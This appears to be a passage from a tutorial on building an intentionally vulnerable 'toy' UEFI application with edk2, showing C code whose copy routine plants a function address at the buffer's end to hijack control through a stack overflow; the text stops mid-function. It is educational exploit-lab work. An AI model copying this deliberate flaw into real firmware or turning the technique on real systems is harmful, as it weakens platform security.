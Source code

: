 TL;DR this is extremely simple and thus a great toy example, due to the lack of platform runtime security in UEFI and lack of build and compile security in the UEFI development kit (EDK/UDK).

The goal is to build a "toy" vulnerable UEFI application, trigger the exploitation, and observe the behavior within the System Debugger on the connected host. The first step is to configure the [edk2](https://github.com/tianocore/edk2) build environment. This is well-documented in several places.

I will modify the `HelloWorld` application and replace the `MdeModulePkg/Application/HelloWorld/HelloWorld.c` with the following content.

```c
#include <Uefi.h>
#include <Library/UefiLib.h>
#include <Library/UefiApplicationEntryPoint.h>

#include <Protocol/LoadedImage.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/MemoryAllocationLib.h>

VOID RunAsm();

CHAR16* GetArgv(IN EFI_HANDLE ImageHandle)
{
  EFI_LOADED_IMAGE* li;
  EFI_GUID loaded_image_protocol = LOADED_IMAGE_PROTOCOL;
  gBS->HandleProtocol(ImageHandle, &loaded_image_protocol, (void**) &li);

  CHAR16* wargv = (CHAR16 *)li->LoadOptions;
  return wargv;
}

VOID RunMe()
{
  Print(L"You win\n");
  RunAsm();
}

UINT32 StrLenChar(CHAR8* src) {
  UINT32 ret = 0;
  while (src[ret++] != 0) {}
  return ret - 1;
}

VOID StrCpy(CHAR8* dst, CHAR16* src, UINT32 length) {
  CHAR8 *src8 = (CHAR8*)src;
  for (UINT32 i = 0; i < length; i++) {
    dst[i] = src8[(i*2)];
  }

  UINT64 loc = (UINT64)&RunMe;
  dst[length - 1] = 0;
  dst[length - 2] = 0;
  dst[length - 3] = 0;
  dst[length - 4] = 0;
  dst[length - 5] = ((loc >> (8 * 3)) & 0xFF);
  dst[length - 6] = ((loc >> (8 * 2)) & 0xFF);
  dst[length - 7] = ((loc >> (8 * 1)) & 0xFF);
  dst[length - 8] = ((loc >> (8 * 0)) & 0xFF);
}

 __attribute__((noinline)) VOID
 TestBufferOverflow(CHAR16* input)
 {
  /* Test stack buffer overflow */

```